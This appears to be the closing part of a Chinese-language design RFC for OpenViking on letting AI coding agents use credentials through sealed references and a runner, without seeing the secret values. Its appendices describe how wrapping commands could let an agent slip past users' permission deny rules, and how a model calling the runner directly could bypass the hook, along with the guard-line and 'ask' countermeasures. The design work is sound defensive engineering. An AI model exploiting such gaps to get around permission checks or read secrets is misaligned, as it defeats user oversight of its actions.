三条贯穿性的结论：

1. **“让流程能用凭据”不等于“把凭据交给 Agent”。** 这是 1Password 的原话，也是本方案和现状的根本区别。
2. **OpenViking 的引用在结构上比同类占位符好。** 它是密钥的“身份”，不是值的哈希。所以密钥轮换之后引用的字节不变，看不出两个值是否相等；占位符到值的映射不需要另存，任何一方随时能向 Privacy 解析，重启不丢；同一个引用在 Gateway、插件、Server 三方含义相同。
3. **封存和启封不对称。** 设计应该让封存到处都是，让启封只有一处。Magpie 的问题正是把启封也做成了“到处都是”。

---

## 10. 后续工作

按从“便宜且价值明确”到“需要新基础设施”排序。这些本期都不做。

| 项 | 说明 |
|---|---|
| 其他 Harness | Codex（改写必须搭配 `allow`，审批按改写后的命令计算）；pi 和 OpenCode（可以直接注入环境变量，不必包裹命令）；Cursor 需要实测 |
| runner 改由 CLI 承担 | [Discussion #7213](https://github.com/volcengine/OpenViking/discussions/7213) 提议新增 `ov privacy run`，做的事和 §7.2 的 runner 相同。它落地后，hook 可以把命令交给 `ov privacy run`，没有 hook 的 Harness 也能让模型直接调用它。前提是 CLI 满足 §7.2 的约束：遮罩换回引用而不是 `[REDACTED]`、取不到值不执行、跨块遮罩、和 Bash 工具用同一个 Shell。模型自己写 `ov privacy run` 时，hook 也要像对待 runner 一样返回 `ask`（附录 A.3） |
| 编码变体 | 把整值的 Base64、base64url、hex、百分号编码也放进对照表 |
| 铸造（mint） | 让 runner 把命令的输出登记成新密钥，只回显引用。例如 `gh auth token`、OAuth 换回来的 token。这样“产生密钥”也不经过模型 |
| Skill 短格式引用 | `{{ov_privacy:skill:<name>:<field>}}` 映射成字段 URI 之后同样可以执行 |
| 对照表批量接口 | 一次返回全部 `credential` 的值，带 ETag，可包含历史版本，用来封存轮换前的旧值 |
| 插件侧封存 | 用 Claude Code 的 mods 改写用户输入、工具结果和落盘内容，并在注入前封存召回内容；OpenCode 和 pi 能在请求发出前改写，可以做成“不需要代理的网关” |
| Gateway 线上包裹 | Gateway 直接把带引用的 Shell 工具调用改写成 runner 调用，没有插件时本地也不留明文。需要本地装有 runner，并认识各 Harness 的 Shell 工具名 |
| 按工具启封 | `unseal_tool_calls` 只对列出的工具名生效。只要 Shell 可用，意义就有限 |
| 出站目的地绑定 | 在 privacy 的 `labels` 里声明允许的 host，由出站代理按 host 和注入位置替换。可以先桥接 Claude Code 的 sandbox mask 模式，自建 TLS 终止代理放到最后 |

---

## 11. 建议

**`privacy_resolve` 在 Server 端的去留。** 本期不改 Server，`privacy_resolve` 在 Server 端保持现状，只在两层各自的开关打开时收口（§6.7、§7.1）。

建议后续在 Server 端默认不向模型暴露它，或让它只对 CLI 可用。理由是它是 §2 第 1 条路径的源头：只要它还默认开放，没有打开开关的部署里，模型“用密钥”仍然要先“读出密钥”。

---

## 附录 A. Claude Code 上的守卫行

### A.1 为什么需要

Claude Code 按**改写后**的命令匹配权限规则。如果只留 runner 那一行，原命令被包在引号里，规则看不见。用户写的 `Bash(rm:*)` 拒绝规则对 `node secret-run.mjs 'rm …'` 不起作用；用户一旦放行过 runner，所有带引用的命令也都跟着放行。任何命令只要带上一个引用，就能绕开用户的规则。

### A.2 机制

改写后的第一行 `false && …` 是**守卫行**。它永远不会执行，作用是把原命令原样摆在权限系统面前。Claude Code 做的是静态匹配，不管一段命令实际会不会执行，所以它会照常检查守卫行里的每一段。§7.3 的权限等式由此成立。

这是在 Claude Code 2.1.321 上实测得到的行为，不是文档承诺。

### A.3 切分规则

实测确认了两点限制，它们决定了守卫行的写法：

- 只有摆在**顶层**的命令段能被精确匹配。嵌在 `if`、子 Shell、花括号里的管道不行。所以 hook 把原命令在顶层的 `;`、`&`、`&&`、`||`、换行处切开，每段各写一行 `false && <段>`，管道保持完整。
- 原命令里有 hook 切不准的结构时（heredoc、`$( )`、反引号、子 Shell、`if` / `for` 等复合语句），hook 不猜，改为返回 `ask`，由人确认。切分只能多切不能漏切：漏掉一个分隔符，守卫行里就会有一段真的被执行，所以宁可保守。

还有一种情况也返回 `ask`：**模型自己在命令里写了 runner**。hook 看到的只有模型写的命令，所以命令里出现 runner 的文件名，就说明模型想绕过 hook 直接调用它，而放行 runner 的规则看不到它要跑什么。实测中 hook 返回的 `ask` 优先于放行规则，在 bypass 模式下也生效。

runner 那一行的写法是 `<node 路径> <插件目录>/scripts/secret-run.mjs '<原命令>'`，两个路径不加引号，所以规则好写，例如 `Bash(*/node */scripts/secret-run.mjs *)`。

### A.4 实测场景

在真实的 Claude Code 2.1.321 上跑过下面这组场景（模型用 Haiku，OpenViking 用本地的模拟服务，hook 和 runner 是分支上的真实脚本；默认模式与 bypass 模式）：

| 场景 | 结果 |
|---|---|
| 原命令各段与 runner 都已放行 | 直接执行；模型看到的输出里只有引用，整段会话记录里没有真值 |
| 同上，但有一段命中拒绝规则 | 拒绝；bypass 模式下也拒绝 |
| 原命令有一段没放行（管道里的一段、`&&` 之后的一段各试一次） | 走审批（非交互模式下即拒绝） |
| runner 没放行 | 走审批 |
| bypass 模式，无规则 | 直接执行，输出只有引用 |
| 命令里有 `$( )`，各段和 runner 都已放行 | hook 返回 `ask`，不执行；bypass 模式下也一样 |
| 模型自己写 runner 调用，runner 已放行 | hook 返回 `ask`，不执行 |
| 用通配规则放行 runner | 生效 |

---

## 附录 B. 各 Harness 的 hook 能力

各 Harness 的 hook 能力差别很大，决定了插件层的形态：

| Harness | 改写 Shell 输入 | 改写的同时要求确认 | 改写 Shell 输出 |
|---|---|---|---|
| Claude Code | 可以 | 可以 | 可以，但形状不符时静默回退到原始输出 |
| Codex | 可以，必须搭配 `allow` | 不支持 | 只能用拦截理由整体替换模型看到的结果；运行中的分段输出和日志不覆盖 |
| Cursor | 可以 | 不强制 | 不可以 |
| OpenCode | 可以，还能直接注入环境变量 | 可以 | 可以 |
| pi | 可以，还能直接注入环境变量 | 需自行实现 | 可以，但被截断的完整输出会另存成文件，路径模型看得到 |

结论是遮罩必须在源头（runner）做，后置 hook 只能当第二层。

---

## 附录 C. 实施与验收

| 分支 | 内容 |
|---|---|
| `rfc/agent-secret-use` | 本 RFC |
| `feat/gateway-secret-seal` | `openviking_gateway/secret_guard.py`、`Policy` 字段、入站封存、三个发送点和 tool loop 的接线、kernel 的封存参数、工具目录、会话说明、Studio、文档、`tests/gateway` |
| `feat/plugin-secret-exec` | `memory-plugin-shared/lib/secret-exec.mjs`、Claude Code 的 hook 与 runner、配置项、会话开始时的说明、文档、测试 |

验收重点：

- 带已登记值的 Anthropic、Chat、Responses 请求到达模拟上游时只有引用；流式和非流式、主请求、摘要、隐藏续轮都覆盖。
- 封存确定且幂等；没有命中时请求字节不变；同一会话多轮之间 anchor 稳定。
- 启封只进客户端工具调用参数，客户端拿到的 JSON 合法；捕获和回放里仍是引用；启封之后的下一轮能续上会话。
- 对照表取不到时返回 503，没有任何上游调用。
- Hook：只在有引用时改写，输出里没有明文，守卫行覆盖原命令的每一段，切不准时返回 `ask`，`privacy_resolve` 被拒绝。
- Runner：各种引号上下文、带特殊字符的值、跨块遮罩、退出码和信号、取不到值时不执行。
